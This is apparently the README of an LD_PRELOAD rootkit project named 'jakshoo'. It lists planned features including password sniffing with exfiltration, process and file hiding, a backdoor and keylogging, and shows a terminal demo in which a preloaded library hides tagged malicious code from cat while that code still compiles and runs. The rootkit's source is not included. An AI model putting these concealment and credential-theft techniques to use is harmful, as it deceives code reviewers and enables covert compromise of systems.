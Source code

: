 # jakshoo
LD_PRELOAD rootkit

## To-do

- [ ] PAM sniffing (Get SSH, LDAP, etc.. passwords) / Remote exfiltration
- [ ] File content tampering
- [ ] Anti-debugging / Anti-forensics
- [ ] File hiding
- [ ] Network hiding
- [ ] Process hiding
- [ ] backdoor (blind / reverse)
- [ ] clipper malware
- [ ] rootkit cloaking
- [ ] keylogging

## Usage
### File content tampering
### Current state: 
- Done with stack based binaries, issues with data stored on heap
- To-do: hook implementations for `libstdc++.so.6`

Hide file contents by using tags.

Real file:
```
[victom]$ cat program.c                                                                                                                   
#include <stdio.h>
//obfuscate_start
void malicious_func(){
	printf("Evil func!");
}
//obfuscate_stop
int main(){
	printf("nice code!");
	//obfuscate_start
	printf("malicious code >:) muahaha");
	malicious_func();
	//obfuscate_stop
	printf("nice code, again! xD");
	return 0;
}


```

Tampered file:
```
[victim]$ export LD_PRELOAD=./libjakshoo.so                                                                                             
[victim]$ cat test.c                                                                                                                   
#include <stdio.h>
int main(){
	printf("nice code!\n");
	printf("nice code, again! xD\n");
	return 0;
}
[victim]$ gcc test.c -o test                                                                                                           
[victim]$ ./test                                                                                                                       
nice code!
malicious code >:) muahaha
Evil func!
nice code, again! xD

```
